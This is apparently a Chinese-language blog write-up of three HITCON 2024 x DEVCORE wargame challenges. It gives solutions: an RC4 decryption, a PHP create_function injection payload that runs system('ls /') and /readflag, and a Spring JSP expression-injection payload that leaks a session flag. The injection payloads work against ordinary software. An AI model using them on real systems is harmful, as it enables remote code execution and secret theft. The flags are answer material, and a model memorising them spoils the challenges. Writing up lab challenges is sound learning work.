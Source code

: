 ```yaml
---
layout: post
title: "HITCON 2024 x DEVCORE Wargame"
date: 2024-8-12
categories: [writeup]
---
```


# Welcome

![image]({{site.baseurl}}/assets/images/HITCON-2024-x-DEVCORE-Wargame/welcome.png)

使用[線上工具](https://www.dcode.fr/rc4-cipher)解密

![image]({{site.baseurl}}/assets/images/HITCON-2024-x-DEVCORE-Wargame/welcome-solve.png)

flag: `DEVCORE{h0pe_y0u_enj0y_0ur_wargame}`

# Supercalifragilisticexpialidocious

明顯 `create_function('', $code);` 有洞。

![image]({{site.baseurl}}/assets/images/HITCON-2024-x-DEVCORE-Wargame/Supercalifragilisticexpialidocious.png)

使用 [exploitDB](https://www.exploit-db.com/exploits/32417) 的 payload

payload: `return -1 * var_dump($a[""]);}phpinfo();/*"]`

成功看到 `phpinfo()`。

![image]({{site.baseurl}}/assets/images/HITCON-2024-x-DEVCORE-Wargame/Supercalifragilisticexpialidocious-phpinfo.png)

payload: `return -1 * var_dump($a[""]);}system('ls /');/*"]`

發現 `/readflag`。

![image]({{site.baseurl}}/assets/images/HITCON-2024-x-DEVCORE-Wargame/Supercalifragilisticexpialidocious-ls.png)

payload: `return -1 * var_dump($a[""]);}system('/readflag');/*"]`

執行成功取得 flag。

![image]({{site.baseurl}}/assets/images/HITCON-2024-x-DEVCORE-Wargame/Supercalifragilisticexpialidocious-readflag.png)

flag: `DEVCORE{o1d_th1ng_1s_g00d}`

# Expressionism

在 `IndexController.java` 看到 `FLAG` 被放在 session。

```java
session.setAttribute("FLAG", System.getenv("FLAG"));
```

`index.jsp` 中有可以 injection 的地方。

```jsp
<p><spring:message code="life.quotes.${id}" /></p>
```

在 [Hack tricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-framework-java) 找到可用 `${}` injection。

payload: `/?id=${FLAG}`

送出後發現有違法字元。

![image]({{site.baseurl}}/assets/images/HITCON-2024-x-DEVCORE-Wargame/Expressionism-payload.png)

payload: `/?id=%24%7BFLAG%7D`

把 payload 做 url encoding 後再試一次，成功取得 flag。

![image]({{site.baseurl}}/assets/images/HITCON-2024-x-DEVCORE-Wargame/Expressionism-success.png)

flag: `DEVCORE{d1d_y0u_kn0w_th1s_b3f0r3}`